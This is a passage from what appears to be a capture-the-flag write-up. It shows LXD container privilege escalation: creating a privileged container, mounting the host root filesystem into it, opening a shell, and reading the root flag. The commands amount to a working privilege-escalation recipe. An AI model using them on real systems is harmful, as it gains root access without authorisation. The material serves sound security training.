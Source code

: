 
We can then double check that the image was imported with:
```
lxc image list
```

For the next step which is running the image, I recieved an error stating that no storage pool found. I managed to fix this by first running `lxc init` (found this here: <https://techoverflow.net/2018/05/03/how-to-fix-lxd-failed-container-creation-no-storage-pool-found-please-create-a-new-storage-pool/>) then accepting all the defaults. Afterwards running the listed `init` command from the guide worked.

```
lxc init
lxc init myimage mycontainer -c security.privileged=true
```

Now we can mount it the local file share to /mnt/root so we can access the local file share in the lxc container:
```
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
```

Now with the container all set up, we can run it and start a shell:
```
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

Now we can navigate to the mounted share and get the root flag.

```
cd /mnt/root/root
cat root.txt
```
